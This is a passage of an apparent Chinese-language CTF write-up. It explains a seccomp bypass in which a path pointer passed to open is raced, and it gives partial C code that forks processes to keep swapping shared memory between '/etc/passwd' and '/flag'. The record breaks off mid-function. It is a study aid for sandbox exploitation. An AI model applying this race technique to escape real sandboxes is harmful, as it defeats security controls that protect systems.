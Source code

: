 ### 都是 seccomp 的错

本来没什么思路，水群时候看到有人发了一个截图，内容是来自 Rust 的 OS Error，这一截图让我确信了多线程在本题中是可行的。

因为在 `open` 系统调用中传递的为字符串指针，因此在 `seccomp` 中进行 syscall 数据拷贝的时候不会拷贝到字符串的内容，而是指针的值，因此可以通过多线程的方式来绕过 `seccomp` 的限制，进行条件竞争。

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

void write_mem(char* addr, const char* str) {
    while (*str) {
        *addr = *str;
        addr++;
        str++;
    }
    *addr = '\0';
}

const char* temp = "/etc/passwd";
const char* flag = "/flag";

int main()
{
    // create shared memory with mmap
    char *shared_memory = mmap(NULL, 512, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, 0, 0);

    write_mem(shared_memory, temp);

    int child_count = 0;

    while (child_count < 10)
    {
        // fork
        int pid = fork();
        if (pid == -1)
        {
            perror("fork");
            exit(1);
        }

        if (pid == 0)
        {
            for(int i = 0; i < 10000; i++)
            {
                write_mem(shared_memory, flag);
                // sleep for a while
                for (int j = 0; j < 100; j++)
                {
                    asm("nop");
                }

                write_mem(shared_memory, temp);
                // sleep for a while
                for (int j = 0; j < 100; j++)
                {
                    asm("nop");
                }
            }

            exit(0);
```